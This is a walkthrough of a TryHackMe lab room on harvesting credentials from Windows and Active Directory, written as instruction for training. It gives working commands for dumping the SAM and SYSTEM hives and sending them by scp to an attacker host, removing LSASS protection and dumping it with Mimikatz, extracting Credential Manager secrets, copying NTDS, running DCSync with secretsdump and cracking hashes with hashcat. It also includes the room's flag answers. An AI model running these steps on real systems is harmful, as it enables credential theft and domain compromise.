




# [Credentials Harvesting](https://tryhackme.com/r/room/credharvesting)


Apply current authentication models employed in modern environments to a red team approach.

## Task 1 - Introduction

### Welcome to Credentials Harvesting

This room discusses the fundamental knowledge for red teamers taking advantage of obtained credentials to perform Lateral Movement and access resources within the AD environment. We will be showing how to obtain, reuse, and impersonate user credentials. 

Credential harvesting consists of techniques for obtaining credentials like login information, account names, and passwords. It is a technique of extracting credential information from a system in various locations such as clear-text files, registry, memory dumping, etc. 

As a red teamer, gaining access to legitimate credentials has benefits:

* It can give access to systems (Lateral Movement).
* It makes it harder to detect our actions.
* It provides the opportunity to create and manage accounts to help achieve the end goals of a red team engagement.

### Learning Objectives

* Understand the method of extracting credentials from local windows (SAM database)
* Learn how to access Windows memory and dump clear-text passwords and authentication tickets locally and remotely.
* Introduction to Windows Credentials Manager and how to extract credentials.
* Learn methods of extracting credentials for Domain Controller
* Enumerate the Local Administrator Password Solution (LAPS) feature.
* Introduction to AD attacks that lead to obtaining credentials.

### Room Prerequisites

We strongly suggest finishing the following Active Directory rooms before diving into this room:

* [Jr. Penetration Tester Path](https://tryhackme.com/path-action/jrpenetrationtester/join)
* [Active Directory Basics](https://tryhackme.com/room/activedirectorybasics)
* [Breaching AD](https://tryhackme.com/room/breachingad)
* [Enumerating AD](https://tryhackme.com/room/adenumeration)
* [Lateral Movement and Pivoting](https://tryhackme.com/room/lateralmovementandpivoting)

### Answer the questions below

* I have completed room prerequisites and am ready to learn about Credentials Harvesting!

## Task 2 - Credentials Harvesting

### Credentials Harvesting

Credentials Harvesting is a term for gaining access to user and system credentials. It is a technique to look for or steal stored credentials, including network sniffing, where an attacker captures transmitted credentials. 

Credentials can be found in a variety of different forms, such as:

* Accounts details (usernames and passwords)
* Hashes that include NTLM hashes, etc.
* Authentication Tickets: Tickets Granting Ticket (TGT), Ticket Granting Server (TGS)
* Any information that helps login into a system (private keys, etc.)

Generally speaking, there are two types of credential harvesting: external and internal. External credential harvesting most likely involves phishing emails and other techniques to trick a user into entering his username and password. If you want to learn more about phishing emails, we suggest trying the THM [Phishing](https://tryhackme.com/room/phishingyl) room. Obtaining credentials through the internal network uses different approaches.

In this room, the focus will be on harvesting credentials from an internal perspective where a threat actor has already compromised a system and gained initial access. 

We have provided a Windows Server 2019 configured as a Domain Controller. To follow the content discussed in this room, deploy the machine and move on to the next task.

You can access the machine in-browser or through RDP using the credentials below.

Machine IP: MACHINE_IP            Username: thm         Password: Passw0rd! 

Ensure to deploy the AttackBox as it is required in attacks discussed in this room.

### Answer the questions below

* I'm ready to get started! 

## Task 3 - Credential Access

### Credential Access

Credential access is where adversaries may find credentials in compromised systems and gain access to user credentials. It helps adversaries to reuse them or impersonate the identity of a user. This is an important step for lateral movement and accessing other resources such as other applications or systems. Obtaining legitimate user credentials is preferred rather than exploiting systems using CVEs.

For more information, you may visit the MITRE ATT&CK framework ([TA0006](https://attack.mitre.org/tactics/TA0006/)).

Credentials are stored insecurely in various locations in systems:

* Clear-text files
* Database files
* Memory
* Password managers
* Enterprise Vaults
* Active Directory
* Network Sniffing

Let's discuss them a bit more!

### Clear-text files

Attackers may search a compromised machine for credentials in local or remote file systems. Clear-text files could include sensitive information created by a user, containing passwords, private keys, etc. The MITRE ATT&CK framework defines it as **Unsecured Credentials: Credentials In Files** ([T1552.001](https://attack.mitre.org/techniques/T1552/001/)).

The following are some of the types of clear-text files that an attacker may be interested in:

* Commands history
* Configuration files (Web App, FTP files, etc.)
* Other Files related to Windows Applications (Internet Browsers, Email Clients, etc.)
* Backup files
* Shared files and folders
* Registry
* Source code 

As an example of a history command, a PowerShell saves executed PowerShell commands in a history file in a user profile in the following path: `C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

It might be worth checking what users are working on or finding sensitive information. Another example would be finding interesting information. For example, the following command is to look for the "password" keyword in the Window registry.


### Database Files

Applications utilize database files to read or write settings, configurations, or credentials. Database files are usually stored locally in Windows operating systems. These files are an excellent target to check and hunt for credentials. For more information, we suggest checking THM room: [Breaching AD](https://tryhackme.com/room/breachingad). It contains a showcase example of extracting credentials from the local McAfee Endpoint database file.

### Password Managers

A password manager is an application to store and manage users' login information for local and Internet websites and services. Since it deals with users' data, it must be stored securely to prevent unauthorized access. 

Examples of Password Manager applications:

* Built-in password managers (Windows)
* Third-party: KeePass, 1Password, LastPass

However, misconfiguration and security flaws are found in these applications that let adversaries access stored data. Various tools could be used during the enumeration stage to get sensitive data in password manager applications used by Internet browsers and desktop applications. 

This room will discuss how to access the Windows Credentials manager and extract passwords.

### Memory Dump

The Operating system's memory is a rich source of sensitive information that belongs to the Windows OS, users, and other applications. Data gets loaded into memory at run time or during the execution. Thus, accessing memory is limited to administrator users who fully control the system.

The following are examples of memory stored sensitive data, including:

* Clear-text credentials
* Cached passwords
* AD Tickets

In this room, we will discuss how to get access to memory and extract clear-text passwords and authentication tickets.

### Active Directory

Active Directory stores a lot of information related to users, groups, computers, etc. Thus, enumerating the Active Directory environment is one of the focuses of red team assessments. Active Directory has a solid design, but misconfiguration made by admins makes it vulnerable to various attacks shown in this room.

The following are some of the Active Directory misconfigurations that may leak users' credentials.

* **Users' description:** Administrators set a password in the description for new employees and leave it there, which makes the account vulnerable to unauthorized access.
* **Group Policy SYSVOL:** Leaked encryption keys let attackers access administrator accounts. Check Task 8 for more information about the vulnerable version of SYSVOL.
* **NTDS:** Contains AD users' credentials, making it a target for attackers.
* **AD Attacks:** Misconfiguration makes AD vulnerable to various attacks, which we will discuss in Task 9.

### Network Sniffing

Gaining initial access to a target network enables attackers to perform various network attacks against local computers, including the AD environment. The Man-In-the-Middle attack against network protocols lets the attacker create a rogue or spoof trusted resources within the network to steal authentication information such as NTLM hashes.

### Answer the questions below

* Using the "reg query" command, search for the value of the "flag" keyword in the Windows registry?

	`7tyh4ckm3`

	* RDP target machine
	
		```
		xfreerdp /v:10.10.76.132 /u:thm /p:'Passw0rd!'
		```

		

	* Run `cmd` and run this command
	
		```
		reg query HKLM /f flag /t REG_SZ /s
		```

		

* Enumerate the AD environment we provided. What is the password of the victim user found in the description section?

	`Passw0rd!@#`

	* Run `powershell` and run this command
	
		```
		Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description
		```

		

## Task 4 - Local Windows Credentials

In general, Windows operating system provides two types of user accounts: Local and Domain. Local users' details are stored locally within the Windows file system, while domain users' details are stored in the centralized Active Directory. This task discusses credentials for local user accounts and demonstrates how they can be obtained.

### Keystrokes

Keylogger is a software or hardware device to monitor and log keyboard typing activities. Keyloggers were initially designed for legitimate purposes such as feedback for software development or parental control. However, they can be misused to steal data. As a red teamer, hunting for credentials through keyloggers in a busy and interactive environment is a good option. If we know a compromised target has a logged-in user, we can perform keylogging using tools like the Metasploit framework or others.

We have a use case example for exploiting users via keystrokes using Metasploit in another THM room. For more information, you should check THM [Exploiting AD](https://tryhackme.com/room/exploitingad) (Task 5). 

### Security Account Manager (SAM)

The SAM is a Microsoft Windows database that contains local account information such as usernames and passwords. The SAM database stores these details in an encrypted format to make them harder to be retrieved. Moreover, it can not be read and accessed by any users while the Windows operating system is running. However, there are various ways and attacks to dump the content of the SAM database. 

First, ensure you have deployed the provided VM and then confirm we are not able to copy or read  the `c:\Windows\System32\config\sam` file:


 
### Metasploit's HashDump

The first method is using the built-in Metasploit Framework feature, hashdump, to get a copy of the content of the SAM database. The Metasploit framework uses in-memory code injection to the LSASS.exe process to dump copy hashes. For more information about hashdump, you can visit the [rapid7](https://www.rapid7.com/blog/post/2010/01/01/safe-reliable-hash-dumping/) blog. We will discuss dumping credentials directly from the LSASS.exe process in another task!


### Volume Shadow Copy Service

The other approach uses the Microsoft Volume shadow copy service, which helps perform a volume backup while applications read/write on volumes. You can visit the [Microsoft documentation page](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) for more information about the service.

More specifically, we will be using wmic to create a shadow volume copy. This has to be done through the command prompt with **administrator privileges** as follows,

1. Run the standard cmd.exe prompt with administrator privileges.
2. Execute the wmic command to create a copy shadow of C: drive
3. Verify the creation from step 2 is available.
4. Copy the SAM database from the volume we created in step 2.

Now let's apply what we discussed above and run the cmd.exe with administrator privileges. Then execute the following wmic command:


Once the command is successfully executed, let's use the `vssadmin`, Volume Shadow Copy Service administrative command-line tool, to list and confirm that we have a shadow copy of the `C:` volume. 


The output shows that we have successfully created a shadow copy volume of (C:) with the following path: `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`. 

As mentioned previously, the SAM database is encrypted either with [RC4](https://en.wikipedia.org/wiki/RC4) or [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) encryption algorithms. In order to decrypt it, we need a decryption key which is also stored in the files system in `c:\Windows\System32\Config\system`. 

Now let's copy both files (sam and system) from the shadow copy volume we generated to the desktop as follows,


Now we have both required files, transfer them to the AttackBox with your favourite method (SCP should work). 

### Registry Hives

Another possible method for dumping the SAM database content is through the Windows Registry. Windows registry also stores a copy of some of the SAM database contents to be used by Windows services. Luckily, we can save the value of the Windows registry using the reg.exe tool. As previously mentioned, we need two files to decrypt the SAM database's content. Ensure you run the command prompt with Administrator privileges.


Let's this time decrypt it using one of the Impacket tools: `secretsdump.py`, which is already installed in the AttackBox. The Impacket SecretsDump script extracts credentials from a system locally and remotely using different techniques.

Move both SAM and system files to the AttackBox and run the following command:


Note that we used the SAM and System files that we extracted from Windows Registry. The `-sam` argument is to specify the path for the dumped sam file from the Windows machine. The `-system` argument is for a path for the system file. We used the `LOCAL` argument at the end of the command to decrypt the Local SAM file as this tool handles other types of decryption. 

Note if we compare the output against the NTLM hashes we got from Metasploit's Hashdump, the result is different. The reason is the other accounts belong to Active Directory, and their information is **not** stored in the System file we have dumped. To Decrypt them, we need to dump the SECURITY file from the Windows file, which contains the required files to decrypt Active Directory accounts.

Once we obtain NTLM hashes, we can try to crack them using Hashcat if they are guessable, or we can use different techniques to impersonate users using the hashes.

### Answer the questions below

* Follow the technique discussed in this task to dump the content of the SAM database file. What is the NTLM hash for the Administrator account?

	`98d3a787a80d08385cea7fb4aa2a4261`

	* Volume Shadow Copy Service method
	
		* Run `cmd` with administrator privileges on target system
		
			

		* Then execute the following wmic command
		
			```
			wmic shadowcopy call create Volume='C:\'
			```

			

		* Use the `vssadmin`, Volume Shadow Copy Service administrative command-line tool
		
			```
			vssadmin list shadows
			```

			

		* Copying the SAM and SYSTEM file from the Shadow Volume
		
			```
			copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\Config\system C:\users\thm\Documents\system

			copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\Config\sam C:\users\thm\Documents\sam
			```

			

		* Copy the SAM and SYSTEM file to attacher machine
		
			```
			scp sam kakakseram@10.4.60.166:/home/kakakseram/THM/CredentialsHarvesting
			scp system kakakseram@10.4.60.166:/home/kakakseram/THM/CredentialsHarvesting
			```

			

		* Decrypting SAM database using Impacket `SecretsDump` script locally 
		
			```
			python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam -system system LOCAL
			```

			

	* Registry Hives method
	
		* Run `cmd` with administrator privileges on target system
		
			

		* Save SAM and SYSTEM files from the registry
		
			```
			reg save HKLM\sam C:\Users\thm\Documents\sam-reg
			reg save HKLM\system C:\Users\thm\Documents\system-reg
			```

			

		* Copy the SAM and SYSTEM file to attacher machine
		
			```
			scp sam-reg kakakseram@10.4.60.166:/home/kakakseram/THM/CredentialsHarvesting
			scp system-reg kakakseram@10.4.60.166:/home/kakakseram/THM/CredentialsHarvesting
			```

			

		* Decrypting SAM database using Impacket `SecretsDump` script locally 
		
			```
			python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam-reg -system system-reg LOCAL
			```

			

## Task 5 - Local Security Authority Subsystem Service (LSASS)

### What is the LSASS?

Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security policy and enforces it on a system. It verifies logged in accounts and ensures passwords, hashes, and Kerberos tickets. Windows system stores credentials in the LSASS process to enable users to access network resources, such as file shares, SharePoint sites, and other network services, without entering credentials every time a user connects.

Thus, the LSASS process is a juicy target for red teamers because it stores sensitive information about user accounts. The LSASS is commonly abused to dump credentials to either escalate privileges, steal data, or move laterally. Luckily for us, if we have administrator privileges, we can dump the process memory of LSASS. Windows system allows us to create a dump file, a snapshot of a given process. This could be done either with the Desktop access (GUI) or the command prompt. This attack is defined in the MITRE ATT&CK framework as "[OS Credential Dumping: LSASS Memory (T1003)](https://attack.mitre.org/techniques/T1003/001/)".

### Graphic User Interface (GUI)

To dump any running Windows process using the GUI, open the Task Manager, and from the Details tab, find the required process, right-click on it, and select "Create dump file".


Once the dumping process is finished, a pop-up message will show containing the path of the dumped file. Now copy the file and transfer it to the AttackBox to extract NTLM hashes offline.

**Note:** if we try this on the provided VM, you should get an error the first time this is run, until we fix the registry value in the **Protected LSASS** section later in this task.

Copy the dumped process to the Mimikatz folder.


### Sysinternals Suite

An alternative way to dump a process if a GUI is not available to us is by using ProcDump. ProcDump is a Sysinternals process dump utility that runs from the command prompt. The SysInternals Suite is already installed in the provided machine at the following path: `c:\Tools\SysinternalsSuite` 

We can specify a running process, which in our case is lsass.exe, to be dumped as follows,


Note that the dump process is writing to disk. Dumping the LSASS process is a known technique used by adversaries. Thus, AV products may flag it as malicious. In the real world, you may be more creative and write code to encrypt or implement a method to bypass AV products.

### MimiKatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) is a well-known tool used for extracting passwords, hashes, PINs, and Kerberos tickets from memory using various techniques. Mimikatz is a post-exploitation tool that enables other useful attacks, such as pass-the-hash, pass-the-ticket, or building Golden Kerberos tickets. Mimikatz deals with operating system memory to access information. Thus, it requires administrator and system privileges in order to dump memory and extract credentials.

We will be using the `Mimikatz` tool to extract the memory dump of the lsass.exe process. We have provided the necessary tools for you, and they can be found at: `c:\Tools\Mimikatz`.

Remember that the LSASS process is running as a SYSTEM. Thus in order to access users' hashes, we need a system or local administrator permissions. Thus, open the command prompt and run it as administrator. Then, execute the mimikatz binary as follows,


Before dumping the memory for cashed credentials and hashes, we need to enable the SeDebugPrivilege and check the current permissions for memory access. It can be done by executing `privilege::debug` command as follows,


Once the privileges are given, we can access the memory to dump all cached passwords and hashes from the `lsass.exe` process using `sekurlsa::logonpasswords`. If we try this on the provided VM, it will not work until we fix it in the next section.


Mimikatz lists a lot of information about accounts and machines. If we check closely in the Primary section for Administrator users, we can see that we have an NTLM hash. 

**Note** to get users' hashes, a user (victim) must have logged in to a system, and the user's credentials have been cached.

### Protected LSASS

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. This task will show how to disable the LSA protection and dump credentials from memory using Mimikatz. To enable LSASS protection, we can modify the registry RunAsPPL DWORD value in `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` to 1.

The steps are similar to the previous section, which runs the Mimikatz execution file with admin privileges and enables the debug mode. If the LSA protection is enabled, we will get an error executing the "sekurlsa::logonpasswords" command.


The command returns a 0x00000005 error code message (Access Denied). Lucky for us, Mimikatz provides a mimidrv.sys driver that works on kernel level to disable the LSA protection. We can import it to Mimikatz by executing "!+" as follows,


Note: If this fails with an `isFileExist` error, exit mimikatz, navigate to `C:\Tools\Mimikatz\` and run the command again.

Once the driver is loaded, we can disable the LSA protection by executing the following Mimikatz command:

	

Now, if we try to run the "sekurlsa::logonpasswords" command again, it must be executed successfully and show cached credentials in memory.

### Answer the questions below

* Is the LSA protection enabled? (Y|N)

	`Y`

* If yes, try removing the protection and dumping the memory using Mimikatz. Once you have done, hit Complete.

	* Run `cmd` with administrator privileges on target system and run `mimikatz`
	
		```
		C:\Tools\Mimikatz\mimikatz.exe
		```
	
		

	* Loading the mimidrv Driver into Memory
	
		```
		!+
		```

		

	* Removing the LSA Protection
	
		```
		!processprotect /process:lsass.exe /remove
		```

		

	* Dumping the Stored Clear-text Passwords
	
		```
		privilege::debug
		sekurlsa::logonpasswords
		```

		
	
## Task 6 - Windows Credential Manager

This task introduces the Windows Credential Manager and discusses the technique used for dumping system credentials by exploiting it.

### What is Credentials Manager?

Credential Manager is a Windows feature that stores logon-sensitive information for websites, applications, and networks. It contains login credentials such as usernames, passwords, and internet addresses. There are four credential categories:

* Web credentials contain authentication details stored in Internet browsers or other applications.
* Windows credentials contain Windows authentication details, such as NTLM or Kerberos.
* Generic credentials contain basic authentication details, such as clear-text usernames and passwords.
* Certificate-based credentials: Athunticated details based on certifications.

Note that authentication details are stored on the user's folder and are not shared among Windows user accounts. However, they are cached in memory.

### Accessing Credential Manager

We can access the Windows Credential Manager through GUI (Control Panel -> User Accounts -> Credential Manager) or the command prompt. In this task, the focus will be more on the command prompt scenario where the GUI is not available.


We will be using the Microsoft Credentials Manager `vaultcmd` utility. Let's start to enumerate if there are any stored credentials. First, we list the current windows vaults available in the Windows target. 


By default, Windows has two vaults, one for Web and the other one for Windows machine credentials. The above output confirms that we have the two default vaults.

Let's check if there are any stored credentials in the Web Credentials vault by running the vaultcmd command with `/listproperties`.


The output shows that we have one stored credential in the specified vault. Now let's try to list more information about the stored credential as follows,


### Credential Dumping

The VaultCmd is not able to show the password, but we can rely on other PowerShell Scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1), which is already included in the attached VM.

Ensure to execute PowerShell with bypass policy to import it as a module as follows,


The output shows that we obtained the username and password for accessing the internal application.

### RunAs

An alternative method of taking advantage of stored credentials is by using RunAs. RunAs is a command-line built-in tool that allows running Windows applications or tools under different users' permissions. The RunAs tool has various command arguments that could be used in the Windows system. The `/savecred` argument allows you to save the credentials of the user in Windows Credentials Manager (under the Windows Credentials section). So, the next time we execute as the same user, runas will not ask for a password.

Let's apply it to the attached Windows machine. Another way to enumerate stored credentials is by using `cmdkey`, which is a tool to create, delete, and display stored Windows credentials. By providing the `/list` argument, we can show all stored credentials, or we can specify the credential to display more details `/list:computername`.


The output shows that we have a domain password stored as the `thm\thm-local` user. Note that stored credentials could be for other servers too. Now let's use runas to execute Windows applications as the `thm-local` user. 


A new cmd.exe pops up with a command prompt ready to use. Now run the whoami command to confirm that we are running under the desired user. There is a flag in the `c:\Users\thm-local\Saved Games\flag.txt`, try to read it and answer the question below.

### Mimikatz

Mimikatz is a tool that can dump clear-text passwords stored in the Credential Manager from memory. The steps are similar to those shown in the previous section (Memory dump), but we can specify to show the credentials manager section only this time.


Apply this technique to the attached machine and answer the question below.

The techniques discussed in this task also could be done through other tools such as Empire, Metasploit, etc. You can do your own research to expand your knowledge.

### Answer the questions below

* Apply the technique for extracting clear-text passwords from Windows Credential Manager. What is the password of the THMuser for internal-app.thm.red?

	`E4syPassw0rd`

	* Run `cmd` with administrator privileges on target system
	
		

	* Listing the available credentials from the Credentials Manager
	
		```
		vaultcmd /list
		```

		

	* Listing credentials details for "Web Credentials"
	
		```
		VaultCmd /listcreds:"Web Credentials"
		```

		

	* Run `Powershell` and import module `Get-WebCredentials.ps1`
	
		```
		powershell -ex bypass
		Import-Module C:\Tools\Get-WebCredentials.ps1
		Get-WebCredentials
		```

		
	

* Use Mimikatz to memory dump the credentials for the 10.10.237.226 SMB share which is stored in the Windows Credential vault. What is the password?

	`jfxKruLkkxoPjwe3`

	* Run `cmd` with administrator privileges on target system and run `mimikatz`
	
		```
		C:\Tools\Mimikatz\mimikatz.exe
		```
	
		

	* Dumping memory for Credentials Manager
	
		```
		privilege::debug
		sekurlsa::credman
		```

		

* Run cmd.exe under thm-local user via runas and read the flag in "c:\Users\thm-local\Saved Games\flag.txt". What is the flag?

	`THM{RunA5S4veCr3ds}`

	* Run `cmd` on target system and run `cmdkey /list`
	
		

	* Run CMD.exe As a User with the /savecred argument and get the flag
	
		```
		runas /savecred /user:THM.red\thm-local cmd.exe
		```

		

## Task 7 - Domain Controller

This task discusses the required steps to dump Domain Controller Hashes locally and remotely.

### NTDS Domain Controller

New Technologies Directory Services (NTDS) is a database containing all Active Directory data, including objects, attributes, credentials, etc. The NTDS.DTS data consists of three tables as follows:

* Schema table: it contains types of objects and their relationships.
* Link table: it contains the object's attributes and their values.
* Data type: It contains users and groups.

NTDS is located in `C:\Windows\NTDS` by default, and it is encrypted to prevent data extraction from a target machine. Accessing the NTDS.dit file from the machine running is disallowed since the file is used by Active Directory and is locked. However, there are various ways to gain access to it. This task will discuss how to get a copy of the NTDS file using the ntdsutil and Diskshadow tool and finally how to dump the file's content. It is important to note that decrypting the NTDS file requires a system Boot Key to attempt to decrypt LSA Isolated credentials, which is stored in the `SECURITY` file system. Therefore, we must also dump the security file containing all required files to decrypt. 

### Ntdsutil

Ntdsutil is a Windows utility to used manage and maintain Active Directory configurations. It can be used in various scenarios such as 

* Restore deleted objects in Active Directory.
* Perform maintenance for the AD database.
* Active Directory snapshot management.
* Set Directory Services Restore Mode (DSRM) administrator passwords.

For more information about Ntdsutil, you may visit the Microsoft documentation [page](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753343(v=ws.11)).

Local Dumping (No Credentials)

This is usually done if you have no credentials available but have administrator access to the domain controller. Therefore, we will be relying on Windows utilities to dump the NTDS file and crack them offline. As a requirement, first, we assume we have administrator access to a domain controller. 

To successfully dump the content of the NTDS file we need the following files:

* C:\Windows\NTDS\ntds.dit
* C:\Windows\System32\config\SYSTEM
* C:\Windows\System32\config\SECURITY

The following is a one-liner PowerShell command to dump the NTDS file using the Ntdsutil tool in the `C:\temp` directory.


Now, if we check the `c:\temp` directory, we see two folders: Active Directory and registry, which contain the three files we need. Transfer them to the AttackBox and run the secretsdump.py script to extract the hashes from the dumped memory file.


### Remote Dumping (With Credentials)

In the previous section, we discussed how to get hashes from memory with no credentials in hand. In this task, we will be showing how to dump a system and domain controller hashes remotely, which requires credentials, such as passwords or NTLM hashes. We also need credentials for users with administrative access to a domain controller or special permissions as discussed in the DC Sync section.

### DC Sync

The DC Sync is a popular attack to perform within an Active Directory environment to dump credentials remotely. This attack works when an account (special account with necessary permissions) or AD admin account is compromised that has the following AD permissions:

* Replicating Directory Changes
* Replicating Directory Changes All
* Replicating Directory Changes in Filtered Set

An adversary takes advantage of these configurations to perform domain replication, commonly referred to as "DC Sync", or Domain Controller Sync. For more information about the DC Sync attack, you can visit the THM [Persisting AD](https://tryhackme.com/room/persistingad) room (Task 2).

The Persisting AD room uses the Mimikatz tool to perform the DC Synchronisation attack. Let's demonstrate the attack using a different tool, such as the Impacket SecretsDump script. 


Let's explain the command a bit more.

* the `-just-dc` argument is for extracting the NTDS data.
* the `thm.red/AD_Admin_User` is the authenticated domain user in the form of (domain/user).

Note if we are interested to dump only the NTLM hashes, then we can use the `-just-dc-ntlm` argument as follows,


Once we obtained hashes, we can either use the hash for a specific user to impersonate him or crack the hash using Cracking tools, such `hashcat`. We can use the hashcat `-m 1000` mode to crack the Windows NTLM hashes as follows:


### Answer the questions below

* Apply the technique discussed in this task to dump the NTDS file `locally` and extract hashes. What is the target system bootkey value? `Note:` Use thm.red/thm as an Active Directory user since it has administrator privileges!

	`0x36c8d26ec0df8b23ce63bcefa6e2d821`

	* Dumping the content of the NTDS file from the Victim Machine
		
		```
		powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
		```

		

	* Check folder `C:\temp`
	
		

	* Transfile all file to attacker machine
	
		```
		scp -r C:/temp kakakseram@10.9.251.6:/home/kakakseram/THM/CredentialsHarvesting
		```

		

	* Extract hashes from NTDS Locally
	
		```
		python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -security ./temp/registry/SECURITY -system ./temp/registry/SYSTEM -ntds ./temp/'Active Directory'/ntds.dit local
		```

		

* What is the clear-text password for the `bk-admin` username?

	`Passw0rd123`

	* Performing the DC Sync Attack to Dump NTLM Hashes
	
		```
		python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc-ntlm THM.red/thm@10.10.1.129
		```

		

	* Crack NTLM with hashcat
	
		```
		hashcat -m 1000 -a 0 077cccc23f8ab7031726a3b70c694a49 /usr/share/wordlists/rockyou.txt
		```

		

## Task 8 - Local Administrator Password Solution (LAPS)

This task discusses how to enumerate and obtain a local administrator password within the Active Directory environment if a LAPS feature is configured and enabled.

### Group Policy Preferences (GPP)

A Windows OS has a built-in Administrator account which can be accessed using a password. Changing passwords in a large Windows environment with many computers is challenging. Therefore, Microsoft implemented a method to change local administrator accounts across workstations using Group Policy Preferences (GPP).

GPP is a tool that allows administrators to create domain policies with embedded credentials. Once the GPP is deployed, different XML files are created in the SYSVOL folder. SYSVOL is an essential component of Active Directory and creates a shared directory on an NTFS volume that all authenticated domain users can access with reading permission.

The issue was the GPP relevant XML files contained a password encrypted using AES-256 bit encryption. At that time, the encryption was good enough until Microsoft somehow published its private key on [MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN). Since Domain users can read the content of the SYSVOL folder, it becomes easy to decrypt the stored passwords. One of the tools to crack the SYSVOL encrypted password is [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1).

### Local Administrator Password Solution (LAPS)

In 2015, Microsoft removed storing the encrypted password in the SYSVOL folder. It introduced the Local Administrator Password Solution (LAPS), which offers a much more secure approach to remotely managing the local administrator password.

The new method includes two new attributes (ms-mcs-AdmPwd and ms-mcs-AdmPwdExpirationTime) of computer objects in the Active Directory. The `ms-mcs-AdmPwd` attribute contains a clear-text password of the local administrator, while the `ms-mcs-AdmPwdExpirationTime` contains the expiration time to reset the password. LAPS uses `admpwd.dll` to change the local administrator password and update the value of `ms-mcs-AdmPwd`.


### Enumerate for LAPS

The provided VM has the LAPS enabled, so let's start enumerating it. First, we check if LAPS is installed in the target machine, which can be done by checking the `admpwd.dll` path.


The output confirms that we have LAPS on the machine. Let's check the available commands to use for `AdmPwd` cmdlets as follows,


